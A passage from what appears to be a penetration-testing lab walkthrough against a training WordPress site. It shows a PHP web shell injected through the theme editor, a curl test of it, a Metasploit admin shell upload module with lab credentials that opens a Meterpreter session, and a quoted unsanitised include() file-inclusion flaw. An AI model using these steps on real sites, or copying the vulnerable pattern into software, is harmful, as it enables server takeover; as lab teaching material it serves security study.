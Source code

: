 
## 🧬 Step 3: Code Execution via Theme Editor

### 🖥️ Login to WordPress Admin Panel:

URL: `http://blog.inlanefreight.local/wp-login.php`

### 🛠️ Modify an Inactive Theme (e.g., `Twenty Nineteen`)

Navigate:

```
Appearance > Theme Editor > Select Theme > 404.php
```

### 💻 Inject a PHP web shell:

```php
<?php system($_GET[0]); ?>
```

### 🧪 Test Shell Access:

```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```


## ⚙️ Step 4: Automated Shell Upload via Metasploit

### 🧰 Use `wp_admin_shell_upload` module:

```bash
use exploit/unix/webapp/wp_admin_shell_upload
set rhosts 10.129.42.195
set vhost blog.inlanefreight.local
set username john
set password firebird1
set lhost 10.10.14.15
exploit
```

💥 Opens Meterpreter session as `www-data`.


## 🧨 Step 5: Exploiting Vulnerable Plugins

### 🧵 mail-masta (Unauthenticated LFI)

Vulnerable code:

```php
include($_GET['pl']); // No sanitization!
```
